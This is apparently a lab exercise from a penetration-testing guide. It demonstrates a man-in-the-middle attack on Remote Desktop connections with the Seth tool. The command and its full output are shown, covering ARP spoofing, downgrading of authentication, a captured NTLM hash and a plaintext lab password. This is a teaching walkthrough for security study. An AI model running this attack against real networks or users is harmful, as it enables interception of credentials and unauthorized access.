

# Exercise: Using Seth in a Man-in-the-Middle Attack

Hack The Box doesn't have any good examples of RDP exploitation and so to illustrate at least one vulnerability, you will demonstrate how easy it is to get a person's password using Seth.

For this demonstration, you have a Windows 10 box that is configured to accept remote desktop connections as the target. You can use your Windows 10 Commando box if you have set that up. The victim is a remote desktop connection client from any other machine on the network, including the computer you are using to run the VMs on. The attacker machine is our ParrotSec VM. The network is shown in Figure 3-6 below.



When you run Seth on the attacker machine and then try and connect using the Remote Desktop Client, you get this output:

```bash
┌─[rin@parrot]─[/opt/Seth]
└──╼ $sudo ./seth.sh eth0 10.0.1.7 10.0.1.5 10.0.1.8
███████╗███████╗████████╗██╗ ██╗
██╔════╝██╔════╝╚══██╔══╝██║ ██║ by Adrian Vollmer
███████╗█████╗ ██║ ███████║ seth@vollmer.syss.de
╚════██║██╔══╝ ██║ ██╔══██║ SySS GmbH, 2017
███████║███████╗ ██║ ██║ ██║ https://www.syss.de
╚══════╝╚══════╝ ╚═╝ ╚═╝ ╚═╝
[*] Linux OS detected, using iptables as the netfilter interpreter
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Waiting for a SYN packet to the original destination...
[+] Got it! Original destination is 10.0.1.27
[*] Clone the x509 certificate of the original destination...
[*] Adjust iptables rules for all packets...
[*] Run RDP proxy...
Listening for new connection
Connection received from 10.0.1.5:61220
Warning: RC4 not available on client, attack might not work
Downgrading authentication options from 11 to 3
Listening for new connection
Enable SSL
Connection received from 10.0.1.5:61232
Warning: RC4 not available on client, attack might not work
Downgrading authentication options from 11 to 3
Listening for new connection
Enable SSL
Failed to extract keyboard layout information
rin:::afb99ab9d701d668:9511818e381cab338594796e923386ef:010100000000000007cbbd3eb4b8d601699b03023078129f0000000002001e004400450053004b50000bf00510001001e004400450053004b3344550004001e004400450053004b0054004f0050002d004900520052004b0044004e00510003001e004400450053004b0054004f0050002d004900520052004b0044004e0051000700080007cbbd3eb4b8d60106000cd00020000000000000000000000
Tamper with NTLM response
Downgrading CredSSP
Connection received from 10.0.1.5:61233
Warning: RC4 not available on client, attack might not work
Listening for new connection
Server enforces NLA; switching to 'fake server' mode
Enable SSL
Connection lost on enableSSL: [Errno 104] Connection reset by peer
Hiding forged protocol request from client
.\rin:S3cr3tP@55w0rd
[*]
```

In this scenario, Network Level Authentication had been configured and so Seth was not able to complete the attack and the connection fails with an error. However, the plaintext username and password are still obtained by the attacker. If the NLA requirement option is switched off, the connection completes, and the user would not be any the wiser.

